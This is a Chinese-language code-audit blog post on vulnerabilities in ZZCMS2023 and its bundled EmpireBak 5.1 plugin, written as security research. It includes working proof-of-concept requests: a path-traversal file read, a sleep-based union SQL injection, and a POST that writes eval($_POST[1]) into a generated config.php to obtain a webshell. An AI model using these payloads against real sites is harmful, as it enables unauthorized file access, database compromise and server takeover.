# ZZCMS2023SQL注入/帝国EmpireBak任意文件上传漏洞分析


在学习审计 ZZCMS2023 的时候遇到了一个 small Problem，结尾再提

# 审计

版本：`2023`
环境：`Apache2.4.39+MYSQL5.7.56、PHP7.4`
项目结构



```
/install 安装程序目录（安装时必须有可写入权限）
/admin 默认后台管理目录（可任意改名）
/user 注册用户管理程序存放目录
/skin 用户网站模板存放目录;更多用户网站模板可从 zzcms.net 下载
/template 系统模板存放目录;更多系统模板可从 zzcms.net 下载
/inc 系统所用包含文件存放目录
/area 各地区显示文件
/zhaoshang 招商程序文件
/pinpai 品牌
/daili 代理
/zhanhui 展会
/company 企业
/job 招聘
/zixun 资讯
/special 专题
/ask 问答
/zhanting 注册用户展厅页程序
/one 专存放单页面，如公司简介页，友情链接页，帮助页都放在这个目录里了
/ajax ajax 程序处理页面
/reg 用户注册页面
/3 第三方插件存放目录
/3/ckeditor CK 编缉器程序存放目录
/3/alipay 支付宝在线支付系统存放目录
/3/tenpay 财富通在线支付系统存放目录
/3/qq_connect2.0 qq 登录接口文件
/3/ucenter_api discuz 论坛用户同步登录接口文件
/3/kefu 在线客服代码
/3/mobile_msg 第三方手机短信 API
/3/phpexcelreader PHP 读取 excel 文件组件
/cache 缓存文件
/uploadfiles 上传文件存放目录
/daili_excel 要导入的代理信息 excel 表格文件上传目录
/image 程序设计图片,swf 文件存放目录
/js js 文件存放目录
/html 静态页存放目录
/update 版本升级更新时，数据库更新文件临时存放目录（规则文件中指定的排除目录）
/web.config 伪静态规则文件 for iis7(万网比较常用)
/httpd.ini 伪静态规则文件 for iss6
/.htaccess 伪静态规则文件 for apache
nginx.conf
```




## 信息泄露

**一、**
`zzcms2023/3/qq_connect2.0/API/comm/inc.php`存储着网站基本配置信息

访问会直接返回默认配置文件的内容，造成了信息泄露

**二、**
已被修复的`CVE-2024-7925`，漏洞定位在`zzcms/3/E_bak5.1/upload/eginfo.php`


修复关键

```
$lur=islogin();
$loginin=$lur['username'];
$rnd=$lur['rnd'];
```

第一时间使用`3/E_bak5.1/upload/class/functions.php#islogin`进行校验，检测是否已经登录`EmpireBak`后台，如果校验通过才允许调用 phpinfo


## 任意文件读取

`zzcms2023/i/list.php`存在任意文件读取漏洞，读取路径受限于网站配置，一般仅能读取网站文件

```
<?php  
require("../inc/conn.php");  
require("../inc/fy.php");  
require("../inc/top.php");  
require("../inc/bottom.php");  
require("../inc/label.php");  
  
require("../inc/get_cs.php");//获取参数  
if (!isset($skin)){$skin='zixun_list.htm';}  
$strout=read_tpl($skin);//读取模板文件  
require("../inc/get_list.php");//获取列表数据,并从模板中替换  
$pagetitle=$classtitle.zxlisttitle;  
$pagekeywords=$classkeyword.zxlistkeyword;  
$pagedescription=$classdescription.zxlistdescription;  
require("../inc/replace_tpl.php");//替换模板中的变量标签  
?>
```

对传入文件做了文件读取，跟进 read_tpl，发现传入的参数被放在了结尾，意味着没有过滤的情况下可以构造 ../ 来读取任意文件

```
$strout=read_tpl($skin);
//读取模板文件
  ->function read_tpl($tpl){
    global $siteskin;
    $fp=zzcmsroot."template/".$siteskin."/".$tpl;
    //$tpl直接被拼接入字符串末尾，且无过滤
    if (file_exists($fp)==false){die(tsmsg($fp.'模板文件不存在'));}
    return file_get_contents($fp);
    }
```

最后包含 zzcms2023/inc/replace_tpl.php ，这个文件会将读取内容直接输出到网页中


POC：

```
POST /i/list.php HTTP/1.1
Host: 192.168.43.169:8089

skin=..%2F..%2Fhttpd.ini
```



## SQL注入

漏洞在 zzmcs2023/zhanting/top.php

接收外部传参`id`，当`$id`不等于 0 时直接拼入字符串并进行`SQL`查询

```
$id=isset($_REQUEST['id'])?$_REQUEST['id']:0;

$channel=strtolower($_SERVER['REQUEST_URI']);
if($id<>0){
$sql="select * from zzcms_user where id='$id'";
//如果不等于 0 将拼入字符串中进行SQL查询

}elseif ($editor<>"" && $editor<>"www" && $editor<>"demo" && $domain<>str_replace("http://","",siteurl)){
$sql="select * from zzcms_user where username='$editor'";
}elseif(isset($editorinzsshow)) {
$sql="select * from zzcms_user where username='".$editorinzsshow."'";	
//当两都为空时从zsshow接收值
}else{
showmsg ("参数不足!");exit;
}
$rs=query($sql);
$row=mysqli_num_rows($rs);
```

query 数据库类方法在 zzcms2023/inc/conn.php 被定义，这里 top.php 仅引用了 fun.php， 我们只需要找一个开头引用了 conn.php 和 top.php 的文件即可完成这串 SQL 漏洞链，因为是在最开始包含就执行了，也不需要考虑其他业务代码的过滤问题

Payload

```
/zhanting/job.php?id=1'union+select+sleep(5),2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37-- -&skin=
```



## 任意文件上传

该漏洞并不是 zzcms 自身因素造成，而是由于其内置的第三方插件 EmpireBak v5.1 的漏洞

漏洞路径zzcms2023/3/E_bak5.1/upload/phomebak.php 

前置条件：拥有 EmpireBak 后台 Cookie

漏洞函数如下

```
function Ebak_DoEbak($add){
	global $empire,$bakpath,$fun_r,$phome_db_ver;
	$dbname=RepPostVar($add['mydbname']);
	if(empty($dbname))
	{
		printerror("NotChangeDb","history.go(-1)");
	}
	$tablename=$add['tablename'];
	$count=count($tablename);
	if(empty($count))
	{
		printerror("EmptyChangeTb","history.go(-1)");
	}
	$add['baktype']=(int)$add['baktype'];
	$add['filesize']=(int)$add['filesize'];
	$add['bakline']=(int)$add['bakline'];
	$add['autoauf']=(int)$add['autoauf'];
	if((!$add['filesize']&&!$add['baktype'])||(!$add['bakline']&&$add['baktype']))
	{
		printerror("EmptyBakFilesize","history.go(-1)");
	}
	//目录名
	if(empty($add['mypath']))
	{
		$add['mypath']=$dbname."_".date("YmdHis");
	}
    DoMkdir($bakpath."/".$add['mypath']);
	//生成说明文件
	$readme=$add['readme'];
	$rfile=$bakpath."/".$add['mypath']."/readme.txt";
	$readme.="\r\n\r\nBaktime: ".date("Y-m-d H:i:s");
	WriteFiletext_n($rfile,$readme);

	$b_table="";
	$d_table="";
	for($i=0;$i<$count;$i++)
	{
		$b_table.=$tablename[$i].",";
		$d_table.="\$tb[".$tablename[$i]."]=0;\r\n";
    }
	//去掉最后一个,
	$b_table=substr($b_table,0,strlen($b_table)-1);
	$bakstru=(int)$add['bakstru'];
	$bakstrufour=(int)$add['bakstrufour'];
	$beover=(int)$add['beover'];
	$waitbaktime=(int)$add['waitbaktime'];
	$bakdatatype=(int)$add['bakdatatype'];
	if($add['insertf']=='insert')
	{
		$insertf='insert';
	}
	else
	{
		$insertf='replace';
	}
	if($phome_db_ver=='4.0'&&$add['dbchar']=='auto')
	{
		$add['dbchar']='';
	}
	$string="<?php
	\$b_table=\"".$b_table."\";
	".$d_table."
	\$b_baktype=".$add['baktype'].";
	\$b_filesize=".$add['filesize'].";
	\$b_bakline=".$add['bakline'].";
	\$b_autoauf=".$add['autoauf'].";
	\$b_dbname=\"".$dbname."\";
	\$b_stru=".$bakstru.";
	\$b_strufour=".$bakstrufour.";
	\$b_dbchar=\"".addslashes($add['dbchar'])."\";
	\$b_beover=".$beover.";
	\$b_insertf=\"".addslashes($insertf)."\";
	\$b_autofield=\",".addslashes($add['autofield']).",\";
	\$b_bakdatatype=".$bakdatatype.";
	?>";
	$cfile=$bakpath."/".$add['mypath']."/config.php";
	WriteFiletext_n($cfile,$string);
	if($add['baktype'])
	{
		$phome='BakExeT';
	}
	else
	{
		$phome='BakExe';
	}
	echo $fun_r['StartToBak']."<script>self.location.href='phomebak.php?phome=$phome&t=0&s=0&p=0&mypath=$add[mypath]&waitbaktime=$waitbaktime';</script>";
	exit();
}
```

对关键段进行分析：直接接收外部传入 `tablename`表名单数组，如果元组数量为空则弹警告


再往下看，这里将数组元素循环赋值给两个变量，同时为 `$d_table` 字符串添加一段 PHP 代码，格式为 `$tb[`表名`]=0;` 并加上换行符 `\r\n`，最后`substr`去掉最后一个逗号


最后所有数组元素合并成一串`php`代码写入`config.php`中，这包括`$b_table`


总结：公共函数处理表单`Ebak_DoEbak`未经过滤将`tablename`拼入`$b_table`并生成`php`文件，造成任意文件上传漏洞
`Payload`如下

```
POST /3/E_bak5.1/upload/phomebak.php HTTP/1.1
Host: 192.168.43.169:8089

phome=DoEbak&mydbname=information_schema&savename=&oldtablepre=&newtablepre=&baktype=0&filesize=300&bakline=500&autoauf=1&bakstru=1&dbchar=auto&bakdatatype=1&mypath=information_schema_20240830060146XttHTw1&insertf=replace&waitbaktime=0&readme=&autofield=&keyboard=&tablename%5B%5D=eval($_POST[1])&Submit=%BF%AA%CA%BC%B1%B8%B7%DD
```


`GetShell !!!`




PS. 好像看完也没啥进步，后面仔细想想，也没啥大问题，还是需要多花时间了解挖掘手法和熟悉框架以及更有价值的漏洞


---

> Author: [L1nq](https://github.com/L1nq0)  
> URL: https://sw1mblu3.fun/posts/php%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1%E5%88%9D%E5%AD%A602-zzcms2023/  

